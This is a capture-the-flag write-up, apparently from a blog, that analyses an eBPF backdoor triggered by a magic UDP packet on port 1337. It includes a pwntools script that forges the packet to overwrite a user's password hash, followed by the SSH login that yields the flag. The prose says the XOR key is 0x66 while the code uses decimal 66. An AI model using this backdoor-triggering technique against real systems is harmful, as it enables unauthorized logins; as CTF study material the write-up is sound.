 The first programs checks incoming packets to see if they are IP/UDP packets with destination port 1337 and a 34 byte payload

```
54: (55) if r1 != 0x40 goto pc+236   ; ip version == 4
58: (55) if r1 != 0x11 goto pc+232   ; ip protocol == 0x11 (UDP)
63: (55) if r1 != 0x5 goto pc+227    ; IHL == 5
74: (55) if r1 != 0x3905 goto pc+216 ; port == 1337 (BE)
78: (55) if r1 != 0x2a00 goto pc+212 ; len = 34 (42-8)
```

It will then check that the packet starts with "fsf", discard those characters, xor the rest of the payload with 0x66 and prefix them with "$1$".

```
92: (55) if r1 != 0x66 goto pc+198
94: (55) if r1 != 0x73 goto pc+196
96: (55) if r1 != 0x66 goto pc+194
```

This matches the format of a md5_crypt() hash and the other two eBPF programs interact with PAM so we make an educated guess that it replaces the user's actual password hash with what we provide it in this packet. The following Python code crafts the UDP packet and sends it to the server.

{% highlight python %}
#!/usr/bin/env python3

from pwn import *

HOST = 'egghunt.challenges.adversary.zone'
PORT = 1337

r = remote(HOST, PORT, typ='udp', level='debug')

# md5_crypt("zetatwo")
target = '$1$FmroQzZt$BlF5T8nm53SLTZdVfYCfH.'

payload = b'fsf'
payload += bytes(x^66 for x in target[3:].encode('ascii'))
assert len(payload) == 42-2*4
r.send(payload)
{% endhighlight %}

We run it in a loop and try to SSH to the server at the same time giving us the flag.

{% highlight bash %}
$ while sleep 1; do python3 solve.py; done &
$ ssh user@egghunt.challenges.adversary.zone -p 22
user@egghunt.challenges.adversary.zone's password: zetatwo
PTY allocation request failed on channel 0
CS{ebpf_b4ckd00r_ftw}
Connection to egghunt.challenges.adversary.zone closed.
{% endhighlight %}

Flag: `CS{ebpf_b4ckd00r_ftw}`

### Exfiltrat0r

